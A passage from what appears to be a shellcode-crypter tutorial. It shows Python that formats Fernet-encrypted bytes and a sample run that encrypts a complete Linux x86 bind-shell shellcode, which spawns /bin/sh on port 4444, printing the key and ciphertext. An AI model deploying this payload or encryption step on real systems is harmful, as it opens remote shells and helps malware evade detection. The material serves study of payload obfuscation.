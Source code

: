 ```python
# Replacing encrypted shellcode value with hexadecimal values in python style
shell = r"\x" + r"\x".join(ciphAscii.hex()[n : n+2] for n in range(0, len(ciphAscii.hex()), 2))
print("\n*** Encrypted shellcode: ***\n",30*"-","\n",'"',shell,'"')
```
<p style="text-align: justify;">An example of use using the above shellcode.</p>

```sh
$ python3 encrypt.py "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x31\xf6\x56\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc2\xb0\x66\xb3\x03\x56\xb9\x84\x05\x05\x06\x81\xe9\x05\x05\x05\x05\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xf6\x56\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80"

/--------------------------------/
 ***  Fernet AES Encrypter.  ***
/--------------------------------/


*** Generated key: *** 
 ------------------------------ 
 tCJp16dKRFfkskbfy6kew8_fkNk4EHIfv1et8BNaxRE=

*** Original Shellcode: ***
 ------------------------------ 
 \x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x31\xf6\x56\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc2\xb0\x66\xb3\x03\x56\xb9\x84\x05\x05\x06\x81\xe9\x05\x05\x05\x05\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xf6\x56\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80

*** Data after encryption: ***
 ------------------------------ 
 gAAAAABegkiNKneSlvzZq4pLGRt8toKc9NPN8ATpolZvsGcAlgFT7RfFNR18MSWIiSz-wib6vSEiHQkZltbSRs52RCY6xlCELbxIS9X7ooBji8nve5s_CFs7lyRAPge250e7o8SNlDl064O3Cquk1QmeVqeRTGRFYOyAGGNwTYiqvIxvGL2-54Tbg8UFo50jxyAk5osGfF3H11fI_nrm_6QeQCYe7jN4XMj_5xbwe83qsGzxgI36qVpGPOGFT28yugkwq7qRR5-oP4DLBv3qYwgW55Ix6ZYHZTOOo8bvfyZZnTjLQG85wIgiFEweYAMg-BisoOXtvLfk213Cg9hEdsd5HieyUAHpv59pAZMkP9yeCoL7RXT_ierI0lxsMiF1uN_DToD5eKedmX16TWjyP6h_zTglMVUucFvsh_Ri9xAOaimnW1BoF7YHAR8pj9h5PTi-I-8OQK76Dn1vUMvLIegyX1aLEFV2lF3_2R4dBtaatpFs6Tyb_rGIWdnZoOQfBaT1b3CGK3cSqZgEMiBgGUw4jOyHLGE_tnvJTGqYiuXdIUdbfabmskgz5Xel7e1RjXqvuKLs1RrCT-lwYw1c-LHLNbwZLx2arzj9fq7bR4NgE7mp9VNd8h4=

*** Encrypted shellcode: ***
 ------------------------------ 
```